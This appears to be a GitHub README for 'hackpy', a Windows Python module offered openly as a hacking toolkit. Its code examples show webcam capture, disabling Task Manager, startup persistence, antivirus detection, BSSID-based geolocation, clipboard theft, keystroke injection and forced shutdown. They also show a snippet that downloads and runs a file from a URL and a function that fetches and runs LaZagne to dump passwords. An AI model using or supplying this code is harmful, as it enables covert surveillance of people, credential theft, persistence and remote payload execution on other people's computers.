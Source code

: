 ![Python](https://www.python.org/static/img/python-logo@2x.png)
# `pip install hackpy` :bomb:

# Example usage:
``` python
# Warning! This module working only on Windows systems!
# Import modules
import os
import hackpy
```

# Get user information
``` python
print(
	'\nWelcome to HackPy!' +
	'\nUsername: ' + hackpy.username +
	'\nComputername: ' + hackpy.computername
	)
```

# Webcam screenshot
``` python
hackpy.webcam(filename = 'screenshot.png', delay = 4500, camera = 1)
```

# TaskManager
``` python
# If process iexplore.exe found:
if hackpy.taskmanager.find('iexplore.exe') == True:
    # Stop iexplore.exe process
    hackpy.taskmanager.kill('iexplore.exe') 
    # start firefox.exe process
    hackpy.taskmanager.start('firefox.exe')
    
# Return dictonary with all processes
for process in hackpy.taskmanager.list(): 
    print(process)

# Disable windows taskmgr.exe
hackpy.taskmanager.disable()
# Enable windows taskmgr.exe
hackpy.taskmanager.enable() 
```

# Autorun
``` python
# Add cmd.exe to startup
hackpy.autorun('C:\\Windows\\System32\\cmd.exe', state = True)

# Remove cmd.exe from startup
hackpy.autorun('C:\\Windows\\System32\\cmd.exe', state = False)
```

# Detect installed antivirus software on computer:
``` python 
for antivirus in hackpy.detect_protection():
    print('[!] - Antivirus detected: ' + antivirus + ', install path: ' + data[antivirus])
```

# Information about you IP:
``` python
data = hackpy.whois()
print('[?] - You IP is: ' + data['query'])
print('[?] - You live in: ' + data['country'] + ', country code: ' + data['countryCode'])
# Return dict: {"query", "status", "country", "countryCode", "region", "regionName", "city", "zip", "lat", "lon", "timezone", "isp", "org", "as", "local"}

# Information about other IP:
data = hackpy.whois('216.58.215.110')
print('[?] - Other Information about IP:\n' + str(data))
# Return dict: {"query", "status", "country", "countryCode", "region", "regionName", "city", "zip", "lat", "lon", "timezone", "isp", "org", "as"}

# Get geodata about you IP:
data = hackpy.geoplugin()
print('[?] - Latitude: ' + data['geoplugin_latitude'])
# Return dict: {"geoplugin_request", "geoplugin_status", "geoplugin_delay", "geoplugin_credit", "geoplugin_city", "geoplugin_region", "geoplugin_regionCode", "geoplugin_regionName", "geoplugin_areaCode", "geoplugin_dmaCode", "geoplugin_countryCode", "geoplugin_countryName", "geoplugin_inEU", "geoplugin_euVATrate", "geoplugin_continentCode", "geoplugin_continentName", "geoplugin_latitude", "geoplugin_longitude", "geoplugin_locationAccuracyRadius", "geoplugin_timezone", "geoplugin_currencyCode", "geoplugin_currencySymbol", "geoplugin_currencySymbol_UTF8", "geoplugin_currencyConverter"}
```

# Get router bssid:
``` python
# Get router BSSID
bssid_string = hackpy.router()
# Find LATITUDE and LONGITUDE with router BSSID:
data = hackpy.bssid_locate(bssid_string)
print(
    'RANGE     : ' + str(data['range']) + '\n' +
    'LATITUDE  : ' + str(data['lat'])   + '\n' +
    'LONGITUDE : ' + str(data['lon'])   + '\n'
    )
```

# Windows messagebox:
``` python
# MessageBox types: none, info, question, warning, error 
hackpy.messagebox('error', 'LOL', 'System has been killed :D')
```

# Nircmdc commands
![SITE](https://i.ibb.co/znRLN0D/image.png)
``` python
# You can run nircmdc commands in python
hackpy.command.nircmdc('monitor off')
hackpy.command.nircmdc('speak text \"HAHAHAHAHHAH IM FIND YOU!\"')
# Nircmdc reference: https://nircmd.nirsoft.net
```

# System commands
``` python
hackpy.command.system('shutdown -s -t 260')
```

# SendKeyPress:
``` python
hackpy.sendkey('Hello bro{ENTER}')
# Other keys: https://pastebin.com/Ns3P7UiH
```

# Clipboard
``` python
# Get text from clipboard:
data = hackpy.clipboard.get()
print('Text in clipboard is ' + data)
# Set text to clipboard:
hackpy.clipboard.set('Hello from LimerBoy and HackPy!!')
```

# Download python and install it:
``` python
# Check if python installed on system. False - not installed, True - installed.
if hackpy.check_python() == False: 
    print('Python is not installed, trying to install!')
    # Default version is 3.7.0 and install path is C:\python37
    hackpy.install_python('3.6.0', path = 'C:\\python36') 
else:
    print('Python is installed!')
```

# Load and execute file from internet
``` python
# Download file
file = hackpy.wget(url)
# Start file
os.startfile(file)
```

# Passwords recovery
``` python
# This function just download LaZagne and execute it..
passwords_recovery(filename = 'passwords.txt')
```